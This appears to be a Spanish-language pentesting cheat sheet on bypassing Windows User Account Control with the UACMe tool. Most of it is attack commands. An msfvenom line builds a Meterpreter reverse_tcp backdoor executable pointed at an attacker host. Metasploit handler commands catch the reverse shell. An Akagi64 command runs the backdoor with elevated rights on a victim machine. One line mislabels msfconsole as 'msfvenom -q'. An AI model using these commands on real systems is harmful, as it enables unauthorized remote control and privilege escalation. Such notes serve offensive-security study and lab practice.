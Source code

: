 # Bypassing UAC With UACMe

Tags: #Windows #Bypassing #UAC

User Account Control (UAC) es una característica de seguridad de Windows introducida en Windows Vista, usada para prevenir cambios no autorizados desde el sistema operativo. UAC es usado para asegurar que los cambios en el sistema operativo sean aprobados por el admin o cuenta del usuario. 
Los atacantes pueden hacer Bypass UAC para ejecutar archivos ejecutables maliciosos para elevar privilegios. 

[![UAC.png](https://i.postimg.cc/nr0DF9j1/UAC.png)](https://postimg.cc/fSSL5Lv3)

Para que sea exitoso el Bypassing debemos tener acceso a una cuenta que sea parte de un grupo local de administradores.
Existen diferentes herramientas y técnicas para poder hacer le Bypassing, sin embargo, esto dependerá de la versión de Windows que se este ejecutando en el sistema. 

* [UACMe](https://github.com/hfiref0x/UACME)   Esta herramienta funciona desde Windows 7 a Windows 10
```bash 
# HFS 2.3 es el nombre de la vulnerabilidad que podemos explotar con Metasploit y manualmente con UACMe
```

Creamos nuestro Payload
```bash
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f exe > backdoor.exe

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

```bash 
# Si ya tenemos un archivo malicioso hecho en msfvenom listo para ejecutar en el servidor victima, podemos hacer lo siguiente y nos pondriamos en 'listening'
❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

Subimos el payload llamado backdoor.exe a la maquina victima, así como el Akagi64.exe
```bash 
❯ .\Akagi64.exe <Key> C:\Temp\backdoor.exe

	# Key = Numero de ID que va desde el 1 al 23, esto dependera del Windows que se este ejecutando 
```